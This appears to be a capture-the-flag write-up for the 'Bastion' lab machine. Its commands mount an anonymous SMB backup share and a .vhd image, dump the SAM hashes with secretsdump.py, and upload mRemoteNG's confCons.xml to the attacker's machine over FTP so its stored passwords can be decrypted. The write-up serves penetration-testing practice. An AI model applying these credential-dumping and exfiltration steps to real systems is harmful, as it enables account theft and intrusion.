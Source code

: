 # Bastion

### Reconnaissance

- port 22 SSH OpenSSH for_Windows_7.9 (protocol 2.0)
- port 135/tcp RPC
- port 139/tcp NetBIOS
- port 445/tcp SMB Windows Server 2016 Standard 14393 microsoft-ds
- port 5985/tcp HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 47001/tcp HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- ports 49664-49670/tcp RPC

SMB anonymous access is enabled, there is a share called Backups containing .vhd files ()

### Exploitation

Mounting the Backup share lets us mount the .vhd files, giving us access to the SAM and SYSTEM registry hives

`sudo mount -t cifs //10.10.10.134/Backups /mnt/backup`

`sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd`

We can then use secretsdump.py to dump the hashes

`python2.7 /opt/impacket-0.9.19/examples/secretsdump.py -sam SAM -system SYSTEM local > hashes.txt`

The Adminstrator and L4mpje hash are identical and crackable

The Administrator password is wrong but L4mpje's credentials give us ssh access (or using evil-winrm)

### Privilege Escalation

Checking the installed programs in Program Files (x86), we see that mRemoteNG, a connection manager program,
is installed

Connection information is stored in `C:\Users\Username\AppData\Roaming\mRemoteNG\confCons.xml`

Using a python ftp server, upload the confCons.xml file to the attacking machine (copy + paste caused the 
decrypt script to fail)

`python -m pyftpdlib -p 21 --write`

Decrypt the passwords with [mRemoteNG_password_decrypt](https://github.com/gquere/mRemoteNG_password_decrypt)

![passwords](./pictures/mremoteng-passwords.png)

SSH into the target with Administrator credentials for root.txt
